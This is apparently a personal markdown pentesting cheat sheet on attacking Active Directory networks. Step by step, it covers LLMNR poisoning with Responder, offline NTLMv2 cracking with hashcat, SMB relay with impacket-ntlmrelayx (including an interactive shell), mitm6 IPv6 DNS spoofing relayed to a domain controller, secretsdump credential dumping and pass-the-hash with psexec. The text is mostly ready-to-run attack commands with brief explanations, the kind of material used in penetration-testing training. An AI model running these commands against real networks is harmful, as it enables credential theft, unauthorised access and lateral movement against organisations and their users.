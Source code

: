 # Active Directory
## LLMNR Poisoning
- Link Local Multicast Name Resolution (LLMNR)
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS.
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.
- With a MitM, you can observe the broadcast for people looking to connect to a share and crack the hash offline.

> **Note**
> ***
> You must be on the same network to capture this traffic.

1. To run the process:
````bash
sudo responder -I {interface} -dwP
````
![](images/responder.png)

2. Add hash to a .txt file.

3. Crack the hashes:
 ````bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
 ````
> **Tip**
> ***
> Its better to run hashcat on bare metal.
> To find what code to use grep the code, for example
> `hashcat --help | grep NTLM`

## SMB Relay
- Instead of cracking hashes we can relay those hashes to specific machines and potentially gain access.
- SMB signing must be disabled or not enforced.
    - You'll see this as an option with your NMAP script.

1. To start you need to adjust your responder.conf file to allow for this attack.
````bash
sudo vim /etc/responder/Responder.conf
````
- Set SMB and HTTP to off on lines 5 and 12 respectively.
![](images/responder_conf.png)

2. Run impacket. This will start similar to responder.
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami" 
````
OR to gain an interactive shell run:
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
````

> **Note**
> ***
> I previously created a file with the IP addresses of my targets and ran the command from that same folder.

![](images/smb_relay.png)

## IPv6 Attack
- This works off most computers using IPv4, but having IPv6 turned on. With no legitamate server for DNS on IPv6 we spoof that DNS to steal NTLM hashes then pass that to the DC.
- Only run this in small sprints, it can disable a network.

1. Setup ntlmrelayx.
````bash
impacket-ntlmrelayx -6 -t ldaps://{ip of DC} -wh fakewpad.{domain.local} -l {lootme}
````
> **Note**
> ***
> -6 is for ipv6
> -t is for target
> -wh Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied. The Web Proxy Auto-Discovery (WPAD) Protocol is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.
> -l Loot directory in which gathered loot such as SAM dumps will be stored. This is the fake name you want to create to find later

2. Run mitm6 (this needs to be installed first)
````bash
sudo mitm6 -i eth0 -d {domain.local}
````

> **Note**
> ***
> By default mitm6 used my production interface so make sure you change the interface to the one that the DC is on.

## Impacket
![Impacket is a collection of Python scripts that can be used by an attacker to target Windows network protocols. This tool can be used to enumerate users, capture hashes, move laterally and escalate privileges.](https://neil-fox.github.io/Impacket-usage-&-detection/)
- Impacket is a suite of tools that can help you get hashes and pass hashes. Read the full manual for more information
- With the new update, commands start with `impacket-{command}`. To see a full list type `impacket-[TAB][TAB]`

### Get hashes if you have one password
- If you have one password you can use impacket to get hashes for the other accounts and then use those hashes to pass the hash, IE for the administrator. `impacket-secretsdump {domain}.local/{username}:'{Password}'@{IP}`

### Pass the Hash
- Pash the hash with `impacket-psexec [username]@[ip] -hashes [hash]`